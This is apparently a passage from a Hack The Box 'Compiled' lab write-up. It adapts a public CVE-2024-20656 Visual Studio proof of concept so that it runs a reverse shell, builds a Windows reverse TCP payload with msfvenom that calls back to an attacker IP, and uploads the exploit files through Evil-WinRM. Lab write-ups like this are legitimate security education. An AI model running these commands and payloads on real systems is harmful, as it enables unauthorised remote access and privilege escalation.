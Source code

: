 `https://github.com/Wh04m1001/CVE-2024-20656.git`
Here is the `poc` exploit, but we need to change something to make sure it will runs normally
```
*Evil-WinRM* PS C:\Program Files (x86)\Microsoft Visual Studio\2019> dir


    Directory: C:\Program Files (x86)\Microsoft Visual Studio\2019


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         1/20/2024   2:16 AM                Community
```
The target machine's `visual studio` is version 2019 and in the `C:\Program Files (x86)`
change `main.cpp`
![](images/Pasted%20image%2020250726162337.png)

Inside the `cb1() `method we can see that it is copying `c:\windows\system32\cmd.exe` to the file
that is going to be executed. However, we want to run out reverse shell payload. Thus let us
change the source file of the copy operation to our payload file `c:\programdata\shell.exe`.
![](images/Pasted%20image%2020250726162749.png)

Then let's `complie` the `release` version

In this place, we need three files to Compiled to make this work
First, I’ll need a reverse shell binary, which I’ll generate with `msfvenom`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f exe -o rev-443.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rev-443.exe

```

I’m going to upload that and `Expl.exe`, `RunasCs.exe` to Compiled 
```
*Evil-WinRM* PS C:\programdata> upload Expl.exe
                                        
Info: Uploading /home/wither/Templates/htb-labs/Compiled/Expl.exe to C:\programdata\Expl.exe
                                        
Data: 229376 bytes of 229376 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\programdata> upload rev-443.exe
                                        
Info: Uploading /home/wither/Templates/htb-labs/Compiled/rev-443.exe to C:\programdata\rev-443.exe
                                        
Data: 9556 bytes of 9556 bytes copied
                                        
```